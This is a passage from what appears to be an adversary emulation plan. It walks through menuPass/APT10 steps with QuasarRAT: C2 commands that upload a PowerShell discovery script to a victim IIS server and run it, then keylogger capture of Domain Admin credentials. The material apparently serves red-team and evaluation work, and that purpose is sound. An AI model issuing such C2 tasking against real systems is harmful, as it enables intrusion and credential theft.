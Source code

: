  <details><summary>:link: Click to expand source code links table</summary></details>

<br>

## Step 2 - Initial Discovery

### :microphone: Voice Track

After establishing communications with the C2 server, menuPass will use
QuasarRAT to execute scripted discovery actions and discover the presence of a
domain controller on Subsidiary A’s network.

### ☣️ Procedures

* Using QuasarRAT, download the PowerShell discovery script to the IIS Server

  ```
  ./evalsC2client.py --set-task F5B06FACBDB06686ABA3E958BE433EF5 '{"type": 2, "transfer_src": "C:\\menu_pass\\Resources\\payloads\\quasar\\step2discovery.ps1", "transfer_dst": "C:\\Users\\kizumi\\AppData\\Local\\Temp\\ekR9TmrCQa1Q.ps1"}'
  ```

* Using QuasarRAT, execute the PowerShell discovery script

  ```
  ./evalsC2client.py --set-task F5B06FACBDB06686ABA3E958BE433EF5 '{"type": 1, "proc_path":"powershell.exe", "proc_args": "\"C:\\Users\\kizumi\\AppData\\Local\\Temp\\ekR9TmrCQa1Q.ps1\""}'
  ```

### :mag: Reference Code & Reporting

1. <https://blogs.blackberry.com/en/2019/06/threat-spotlight-menupass-quasarrat-backdoor>
1. <https://medium.com/cycraft/supply-chain-attack-targeting-taiwan-financial-sector-bae2f0962934>
1. <https://securelist.com/apt10-sophisticated-multi-layered-loader-ecipekac-discovered-in-a41apt-campaign/101519/>
1. <https://media.kasperskydaily.com/wp-content/uploads/sites/86/2021/02/25140359/greatidea_A41_v1.0.pdf>
1. <https://jsac.jpcert.or.jp/archive/2021/pdf/JSAC2021_202_niwa-yanagishita_en.pdf>
1. <https://www.fortinet.com/blog/threat-research/uncovering-new-activity-by-apt->
1. <https://web.archive.org/web/20191028183408/https://blog.ensilo.com/uncovering-new-activity-by-apt10>

 <details><summary>:link: Click to expand source code links table</summary></details>

<br>

## Step 3 - Credential Access and Privilege Escalation

### :microphone: Voice Track

Eventually, the IIS Server admin logs in to the IIS Server `gabumon (10.10.10.9)`.
While performing tasks, they eventually need to type in their Domain Admin
credentials. Using QuasarRAT's keylogger utility, menuPass captures the domain
admin credentials.
